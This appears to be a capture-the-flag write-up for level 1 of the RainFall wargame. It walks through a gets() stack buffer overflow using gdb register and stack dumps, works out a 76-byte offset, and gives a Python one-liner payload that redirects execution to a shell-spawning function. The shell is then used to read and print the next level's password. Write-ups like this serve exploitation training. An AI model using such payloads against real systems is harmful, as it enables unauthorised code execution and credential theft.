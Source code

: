 # Level 1

<h3>source.c</h3>

```console
void run() {
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}

void main() {
  char str[64];

  gets(str);
}
```

<h3>Analysis</h3>

This program is using the function `gets` with is unsafe and vulnerable to `buffer overflow` exploit

We can see that there is a function `run()` which will spawn a shell, but main function never call this function

We needs to find a way to run the call function `run()`

<h3>Exploit</h3>

We will use the vulnerability of `gets` function to overwrite the RET address, so when the function finish, it will jump to the address that we want to

Base on the assembly code, the stack should like something like this

```console
+------------+        -> esp
|  16 bytes  |        -> buffer for esp (0x50 or 80 bytes) each line represent 16 bytes
|  16 bytes  |        -> esp+0x10 start of the str pointer
|  16 bytes  |        
|  16 bytes  |
|  16 bytes  |        -> end of the str pointer (total 64 bytes)
+------------+
|   4 bytes  |        -> ebp
+------------+
|   4 bytes  |        -> RET (EIP)
+------------+
```

Theoretically by writing 64 bytes + 4 bytes (ebp) + 4 bytes (RET) should overwrite the return address

But the position of RET (EIP) might not be directly under the `ebp`, as compiler padding (alignment) can increase the size of the stack

We can see that there is an aligment at the start of the main function

```console
0x08048483 <+3>:  and    esp,0xfffffff0       -> bit alignment
```

Lets use gdb to check on how much bytes we needs to write before we can overwrite the `RET`

```console
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:   push   ebp
   0x08048481 <+1>:   mov    ebp,esp
   0x08048483 <+3>:   and    esp,0xfffffff0
   0x08048486 <+6>:   sub    esp,0x50
   0x08048489 <+9>:   lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
(gdb) break *0x08048495                                                       -> set breakpoint before the return command
Breakpoint 1 at 0x8048495
(gdb) r <<< $(python -c "print 'a'*64")                                       -> print 64 'a' char and run the program
Starting program: /home/user/level1/level1 <<< $(python -c "print 'a'*64")

Breakpoint 1, 0x08048495 in main ()
(gdb) info registers                                                          -> get all the registers information
eax            0xbffff6b0 -1073744208
ecx            0xb7fd28c4 -1208145724
edx            0xbffff6b0 -1073744208
ebx            0xb7fd0ff4 -1208152076
esp            0xbffff6a0 0xbffff6a0
ebp            0xbffff6f8 0xbffff6f8
esi            0x0  0
edi            0x0  0
eip            0x8048495  0x8048495 <main+21>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/24wx $esp
0xbffff6a0: 0xbffff6b0  0x0000002f  0xbffff6fc  0xb7fd0ff4                    -> esp start at 0xbffff6a0
0xbffff6b0: 0x61616161  0x61616161  0x61616161  0x61616161                    -> all the 'a' char (0x61) that we give to the programs
0xbffff6c0: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff6d0: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff6e0: 0x61616161  0x61616161  0x61616161  0x61616161                    -> the write stops here with 64 * a
0xbffff6f0: 0x08048400  0x00000000  0x00000000  0xb7e454d3                    -> 0xbffff6f0 contains the EBP plus some empty paddings before we reach the RET address
```

As we can see from the stack frame above, 64 * a is not enough to overwrite the return pointer

We need to add the total byte of ebp + the extra padding in order to reach the RET

So we need to write a total of `64 + 12 = 76 char` as an offset before we could overwrite the RET

Now lets find the address of the `run()`

```console
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

Great! We have the address of the `run()`, now we just need to pack everything together and give it to the program

The address need to be written in reverse because of little endian

The `cat -` is needed as we want the spawned shell to stay open and this is the work around

```console
level1@RainFall:~$ (python -c "print 'a' * 76 + '\x44\x84\x04\x08'"; cat - ) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```



